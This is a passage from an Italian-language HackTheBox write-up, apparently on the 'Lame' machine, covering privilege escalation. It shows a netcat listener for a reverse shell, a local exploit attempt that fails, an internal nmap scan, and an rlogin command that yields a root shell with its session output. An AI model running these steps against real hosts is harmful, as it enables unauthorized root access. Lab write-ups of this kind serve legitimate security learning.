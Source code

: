 Ci mettiamo in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali/htb/devel]
└─# nc -nlvp  4445
listening on [any] 4445 ...
```

Sulla macchina target eseguiamo 
```
./8572 2731
```

Sembra non funzionare 

# PRIVESC 2

con which nmap scopriamo che la macchina ha installato nmap lanciamo uno scan interno
```bash
nmap -p- localhost
513/tcp   open  login
514/tcp   open  shell
953/tcp   open  rndc
1099/tcp  open  unknown
1524/tcp  open  ingreslock
```

Notiamo la porta 513 aperta
Questo servizio era utilizzato principalmente in passato per l'amministrazione remota,
ma ora, a causa di problemi di sicurezza,
questo servizio è stato sostituito da slogin e ssh

A questo link troviamo quello che ci serve per l'exploitare questo servizio 
https://book.hacktricks.xyz/network-services-pentesting/pentesting-rlogin

abusiamo di questo servizio con il seguente comando 
```bash
rlogin -l root localhost

rlogin -l root localhost
Last login: Thu May 11 01:55:50 EDT 2023 from localhost on pts/1
Linux lame 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
You have new mail.
root@lame:~# whoami
whoami
root
root@lame:~# 
```
